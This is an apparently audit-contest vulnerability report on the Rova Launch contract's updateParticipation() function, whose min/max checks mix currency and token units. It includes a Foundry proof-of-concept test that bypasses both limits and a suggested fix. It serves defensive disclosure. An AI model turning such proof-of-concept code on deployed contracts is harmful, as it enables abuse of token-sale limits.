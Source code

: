 Mythical Olive Bull

High

# Incorrect minimum and maximum token amount check in `updateParticipation()`

### Summary

`updateParticipation()` is responsible for modifying a user's participation in a launch group by increasing or decreasing their token amount. However, the function does not correctly validate whether the new token amount remains within the allowed limits (`minTokenAmountPerUser` and `maxTokenAmountPerUser`). This issue allows users to bypass the intended constraints.

### Root Cause

The function includes a check to ensure that a user's token amount does not fall below the minimum required amount. However, the validation logic is flawed:

The function checks if:
https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L355
```solidity
userTokenAmount - refundCurrencyAmount < settings.minTokenAmountPerUser
```

This logic is incorrect because `userTokenAmount` represents the total new token amount which user wants to keep in contract after the update, and `refundCurrencyAmount` represents the currency equivalent of the reduction. The check does not directly compare the new token amount to the minimum allowed limit. It incorrectly deducts the refund amount in currency instead of directly validating the new token amount.

Similarly, when increasing the token amount, the function checks:
https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L368
```solidity
    userTokenAmount + additionalCurrencyAmount > settings.maxTokenAmountPerUser
```
Here, `additionalCurrencyAmount` represents a currency value, not a token amount. Due to this user may not be able to increase the token amount even if token amount is less than `maxTokenAmountPerUser`.

### Internal Pre-conditions

1. A user must have an existing participation entry in `launchGroupParticipations`.
2. The `settings.finalizesAtParticipation` must be `false`.

### External Pre-conditions

1. The function must be called while the launch group is still active.
2. The external contract used for IERC20.safeTransfer() must have sufficient funds to process refunds or accept additional payments.

### Attack Path

1. User calls `updateParticipation()` with a reduced token amount
2. The function incorrectly checks `userTokenAmount - refundCurrencyAmount` instead of directly validating `request.tokenAmount`.
3. Due to this a user could set their token amount lower than `minTokenAmountPerUser`.

### Impact

Users may unintentionally or maliciously reduce their token amount below the required minimum, and can break important invariant leading to an invalid state where participation does not meet the intended conditions.

### PoC
<details>

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    CancelParticipationRequest,
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    ParticipationInfo,
    CurrencyConfig,
    UpdateParticipationRequest
} from "../src/Types.sol";
import {console} from "forge-std/console.sol";

contract USDC is ERC20 {
    constructor() ERC20("USDC", "USDC") {
        _mint(msg.sender, 1000000 * 10 ** 6);
    }
}

contract LimitBypass is Test, Launch, LaunchTestBase {
    USDC public usdc;

    bytes32 public testLaunchParticipationId2 = "cm6o2sldi00003b74facm5z9n2";
    bytes32 public testUserId2 = "cm6o2tm1300003b74dsss1s7q2";


    function setUp() public {
        _setUpLaunch();
        usdc = new USDC();
        usdc.transfer(user1, 5000 * 10 ** 6);
    }

    function createLaunchGroup() public {
        CurrencyConfig memory usdcConfig =
            CurrencyConfig({tokenPriceBps: 1 * (10 ** 6), isEnabled: true});

        LaunchGroupSettings memory settings = LaunchGroupSettings({
            finalizesAtParticipation: false,
            startsAt: block.timestamp,
            endsAt: block.timestamp + 1 days,
            maxTokenAllocation: 10000 * 10 ** launch.tokenDecimals(),
            minTokenAmountPerUser: 500 * 10 ** launch.tokenDecimals(),
            maxTokenAmountPerUser: 3000 * 10 ** launch.tokenDecimals(),
            status: LaunchGroupStatus.ACTIVE
        });
        vm.startPrank(manager);
        launch.createLaunchGroup(testLaunchGroupId, address(usdc), usdcConfig, settings);
        vm.stopPrank();
    }

    function generateRequest(
        bytes32 launchParticipationId, 
        bytes32 userId, 
        address userAddress, 
        uint256 tokenAmount, 
        address currency) public returns (ParticipationRequest memory request){
            
        return ParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: launchParticipationId,
            userId: userId,
            userAddress: userAddress,
            tokenAmount: tokenAmount * 10 ** launch.tokenDecimals(),
            currency: currency,
            requestExpiresAt: block.timestamp + 1 hours
        });
    }

    function generateUpdateRequest(
        bytes32 prevLaunchParticipationId,
        bytes32 newLaunchParticipationId, 
        bytes32 userId, 
        address userAddress, 
        uint256 tokenAmount, 
        address currency
    ) public returns (UpdateParticipationRequest memory){
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: prevLaunchParticipationId,
            newLaunchParticipationId: newLaunchParticipationId,
            userId: userId,
            userAddress: userAddress,
            tokenAmount: tokenAmount * 10 ** launch.tokenDecimals(),
            currency: currency,
            requestExpiresAt: block.timestamp + 1 hours
        });
    }


    function test_maxLimitBypass() public {
        // Setup launch group
        createLaunchGroup();

        ParticipationRequest memory requestUSDC = generateRequest(testLaunchParticipationId, testUserId, user1, 1000, address(usdc));
        bytes memory signature = _signRequest(abi.encode(requestUSDC));

        vm.startPrank(user1);
        uint256 currencyAmount = _getCurrencyAmount(requestUSDC.launchGroupId, requestUSDC.currency, requestUSDC.tokenAmount);
        usdc.approve(address(launch), currencyAmount);

        // Expect ParticipationRegistered event
        vm.expectEmit();
        emit ParticipationRegistered(
            requestUSDC.launchGroupId, requestUSDC.launchParticipationId, testUserId, user1, currencyAmount, address(usdc)
        );

        // Participate
        launch.participate(requestUSDC, signature);
        vm.stopPrank();    

        UpdateParticipationRequest memory updateRequest = generateUpdateRequest(testLaunchParticipationId, testLaunchParticipationId2, testUserId, user1, 5000, address(usdc));
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user1);
        uint256 currencyAmountUpdate = _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        usdc.approve(address(launch), currencyAmountUpdate);

        launch.updateParticipation(updateRequest, updateSignature);
        ParticipationInfo memory info = launch.getParticipationInfo(testLaunchParticipationId2);
        LaunchGroupSettings memory settings = launch.getLaunchGroupSettings(requestUSDC.launchGroupId);

        console.log("maxTokenAmountPerUser:", settings.maxTokenAmountPerUser);
        console.log("User Token amount:", info.tokenAmount);
        
        assertTrue(info.tokenAmount > settings.maxTokenAmountPerUser);
    }

    function test_minLimitBypass() public {
        // Setup launch group
        createLaunchGroup();

        ParticipationRequest memory requestUSDC = generateRequest(testLaunchParticipationId, testUserId, user1, 1000, address(usdc));
        bytes memory signature = _signRequest(abi.encode(requestUSDC));

        vm.startPrank(user1);
        uint256 currencyAmount = _getCurrencyAmount(requestUSDC.launchGroupId, requestUSDC.currency, requestUSDC.tokenAmount);
        usdc.approve(address(launch), currencyAmount);

        // Expect ParticipationRegistered event
        vm.expectEmit();
        emit ParticipationRegistered(
            requestUSDC.launchGroupId, requestUSDC.launchParticipationId, testUserId, user1, currencyAmount, address(usdc)
        );

        // Participate
        launch.participate(requestUSDC, signature);
        vm.stopPrank();    

        UpdateParticipationRequest memory updateRequest = generateUpdateRequest(testLaunchParticipationId, testLaunchParticipationId2, testUserId, user1, 0, address(usdc));
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user1);
        uint256 currencyAmountUpdate = _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        usdc.approve(address(launch), currencyAmountUpdate);

        launch.updateParticipation(updateRequest, updateSignature);
        ParticipationInfo memory info = launch.getParticipationInfo(testLaunchParticipationId2);
        LaunchGroupSettings memory settings = launch.getLaunchGroupSettings(requestUSDC.launchGroupId);

        console.log("minTokenAmountPerUser:", settings.minTokenAmountPerUser);
        console.log("User Token amount:", info.tokenAmount);
        
        assertTrue(info.tokenAmount < settings.minTokenAmountPerUser);
    }

}

```
</details>

### Mitigation

Modify the validation logic inside updateParticipation() to:

```solidity
if (userTokenAmount < settings.minTokenAmountPerUser) {
revert MinUserTokenAllocationNotReached(request.launchGroupId, request.userId, userTokenAmount, request.tokenAmount);
}
```
and
```solidity
if (userTokenAmount > settings.maxTokenAmountPerUser) {
revert MaxUserTokenAllocationReached(request.launchGroupId, request.userId, userTokenAmount, request.tokenAmount);
}
```